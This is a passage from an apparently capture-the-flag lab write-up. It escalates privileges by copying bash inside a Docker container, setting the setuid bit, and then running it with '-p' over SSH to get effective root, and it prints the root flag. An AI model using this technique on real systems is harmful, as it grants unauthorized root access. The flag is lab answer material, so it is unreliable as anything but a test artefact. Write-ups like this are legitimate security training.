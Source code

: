 In the Docker container we can add a sticky bit to /bin/bash so we can execute it in our SSH session.
```bash
cp /bin/bash .
chmod u+s bash
```

Now, in the SSH session, we can execute `bash` with the -p flag to become root.
```bash
limesvc@ip-10-10-200-233:/opt/limesurvey$ ./bash -p
bash-5.1# id
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) groups=2000(limesvc)
```

Root flag: `VL{d75a070fbff631e40b21c99aea5d0a1a}`
```bash
bash-5.1# cat root.txt
VL{d75a070fbff631e40b21c99aea5d0a1a}
```